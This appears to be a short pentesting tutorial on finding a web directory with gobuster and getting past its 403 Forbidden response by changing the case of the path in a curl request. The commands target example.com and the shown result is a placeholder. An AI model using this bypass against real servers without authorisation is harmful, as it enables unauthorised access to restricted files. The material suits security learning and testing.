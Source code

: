 # Bypassing Forbidden Directories with Gobuster and Curl

In the realm of cybersecurity, uncovering hidden directories and files is a common task for penetration testers and security enthusiasts alike. Gobuster, a popular tool used for directory and file brute-forcing, combined with Curl, a versatile command-line tool for transferring data, offers a powerful duo for such endeavors. Let's delve into a scenario where these tools are employed to discover and access a forbidden directory.

**Command:**
```
gobuster dir -v -u https://example.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
**Found:**
```
status: 301 -> https://example.com/uploads
```
**Command:**
```
curl https://example.com/uploads/
```
**Found:**
```
403 Forbidden.
```
**Technique:**
To circumvent the forbidden access, we can utilize a simple yet effective tactic: altering the case of the directory name. By trying different combinations of uppercase and lowercase letters, we can often bypass access restrictions imposed by web servers.

**Command:**
```
curl https://example.com/uPlOaDs/
```
**Result:**
```
It bypassed
```

In this scenario, despite encountering a 403 Forbidden response when attempting to access the `/uploads/` directory, we successfully bypassed the restriction by modifying the case of the directory name. By issuing a request to `/uPlOaDs/`, we evaded the access control mechanism and gained entry to the directory.
